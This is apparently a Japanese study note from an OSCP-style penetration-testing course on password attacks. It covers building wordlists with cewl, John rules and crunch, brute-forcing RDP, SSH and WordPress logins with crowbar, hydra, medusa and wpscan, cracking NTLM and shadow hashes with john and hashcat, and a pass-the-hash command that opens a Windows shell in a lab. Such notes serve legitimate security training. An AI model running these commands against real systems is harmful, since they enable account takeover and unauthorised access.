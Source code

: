 # PasswordAttacks

## wordlistの作成(cewl)

```
cewl www.megacorpone.com -m 3 -w megacorp-cewl.txt
wc -l megacorp-cewl.txt
grep Nano megacorp-cewl.txt
```



## wordlistの末尾に数字2桁を自動付与する方法

John the ripperの設定ファイルにルールを追加する

```
sudo cp /etc/john/john.conf /etc/john/john.conf.bak
sudo nano /etc/john/john.conf
```

```bash
kali@kali:~$ sudo nano /etc/john/john.conf
...
# Wordlist mode rules
[List.Rules:Wordlist]
# Try words as they are
:
# Lowercase every pure alphanumeric word
-c >3 !?X l Q
# Capitalize every pure alphanumeric word
-c (?a >2 !?X c Q
# Lowercase and pluralize pure alphabetic words
...
# Try the second half of split passwords
-s x_
-s-c x_ M l Q
# Add two numbers to the end of each password
$[0-9]$[0-9]
...
```

特殊文字を含む例

```
$[0-9]$[0-9]$[0-9]$[0-9]$[$%^&*()-_+=|\<>[\]{}#@/~]$[$%^&*()-_+=|\<>[\]{}#@/~]
```

https://miloserdov.org/?p=5477

https://www.openwall.com/john/doc/RULES.shtml

hashcatも同様のルールを踏襲している。

```
john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt
grep Nanobot mutated.txt
```

--wordlist：辞書ファイルを指定

--rules：設定ファイルのルールを有効

--stdout：結果を標準出力に出力



## crunchを用いたwordlist作成

| PLACEHOLDER | CHARACTER TRANSLATION              |
| ----------- | ---------------------------------- |
| @           | Lower case alpha characters        |
| ,           | Upper case alpha characters        |
| %           | Numeric characters                 |
| ^           | Special characters including space |

* 8桁のパスワードリストを作成

```bash
┌──(kali㉿kali)-[~/Documents/OSCP/19.PasswordAttacks]
└─$ crunch 8 8 -t ,@@^^%%%                                                                                
Crunch will now generate the following amount of data: 172262376000 bytes
164282 MB
160 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 19140264000 
```

* 文字を指定して作成

```bash
┌──(kali㉿kali)-[~/Documents/OSCP/19.PasswordAttacks]
└─$ crunch 4 6 0123456789ABCDEF -o crunch.txt                                                             
Crunch will now generate the following amount of data: 124059648 bytes
118 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 17891328 
```

* あらかじめ定義された文字セットを利用して作成

```bash
kali@kali:~$ crunch 4 6 -f /usr/share/crunch/charset.lst mixalpha -o crunch.txt
Crunch will now generate the following amount of data: 140712049920 bytes
134193 MB
131 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 20158125312 
```



## medusaを用いたパスワードリスト攻撃

```bash
medusa -h 192.168.250.10 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin

# 対応プロトコルの確認
medusa -d
```



## Crowbarを用いたパスワードリスト（RDP）

```
sudo apt install crowbar
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```

* -b：プロトコル



## ハッシュ種類の特定

```bash
hashid '$6$l5bL6XIASslBwwUD$bCxeTlbhTH76wE.bI66aMYSeDXKQ8s7JNFwa1s1KkTand6ZsqQKAF3G0tHD9bd59e5NAz/s7DQcAojRTWNpZX0'
```

※ハッシュは必ず`''`で囲むこと！

## John the ripper

パスワードリストとハッシュファイルを用意すること

.rarファイルの場合

```
rar2john flag.rar > /home/student/hash.txt
zip2john flag.zip > hash.txt
```

```
john --wordlist=/home/student/mutated.txt /home/student/hash.txt 
```

NTLM形式

```
alice:1004:aad3b435b51404eeaad3b435b51404ee:b74242f37e47371aff835a6ebcac4ffe:::
```

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```

ワードマングリング

```
john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```

NT：NTLMハッシュ

https://miloserdov.org/?p=5477

https://www.openwall.com/john/doc/RULES.shtml

* /etc/shadowのハッシュについて
* http://hitsumabushi-pc.blogspot.com/2011/12/etcshadow.html
* ![image-20230212095848774](img/PasswordAttacks/image-20230212095848774.png)



### Hashcat

```bash
hashcat -m 1000 -a 0 077cccc23f8ab7031726a3b70c694a49 /usr/share/wordlists/rockyou.txt
```

-m：hash-type

https://hashcat.net/wiki/doku.php?id=example_hashes

ここでどのハッシュかを確認しながら設定するパラメータを決めるとよい

もしくは`hashcat --help | less`でみる。こちらの方はカテゴリタイプがあっていい。

<img src="img/PasswordAttacks/image-20230212101119357.png" alt="image-20230212101119357" style="zoom:50%;" />

-a：attack-mode

![image-20230212101224924](img/PasswordAttacks/image-20230212101224924.png)

```bash
hashcat --help
```



### hydra

```
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
```

```bash
hydra -l offsec -P /usr/share/wordlists/rockyou.txt 172.18.0.2 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F172.18.0.2%2Fwp-admin%2F&testcookie=1:F=incorrect.'
```

### WPscan

```bash
wpscan --url http://localhost:80/ -U offset -P /usr/share/wordlists/rockyou.txt
```

https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation

### secList

https://github.com/danielmiessler/SecLists/tree/master/Passwords

### patator(mysql)

https://www.kali.org/tools/patator/



## Pass the Hash (pth-winexe)

```bash
┌──(kali㉿kali)-[~/Documents/OSCP/19.PasswordAttacks]
└─$ pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //192.168.250.10 cmd
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.16299.15]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

※offsec%<1つ目のハッシュ>：<2つ目のハッシュ>のうち2つ目はNTLMハッシュだが1つ目のハッシュが何者か現時点わかっていない。

↓これが答え。1つ目は空のLMハッシュ

https://yougottahackthat.com/blog/339/what-is-aad3b435b51404eeaad3b435b51404ee



### burp suite intruder(9章に詳細説明あり)

パスワードのみ変数設定する

![image-20230224220043434](img/PasswordAttacks/image-20230224220043434.png)

cewlで作成したパスワードリストを設定する

![image-20230224220116955](img/PasswordAttacks/image-20230224220116955.png)

攻撃をスタートする。応答の長さで判断する

![image-20230224220226256](img/PasswordAttacks/image-20230224220226256.png)


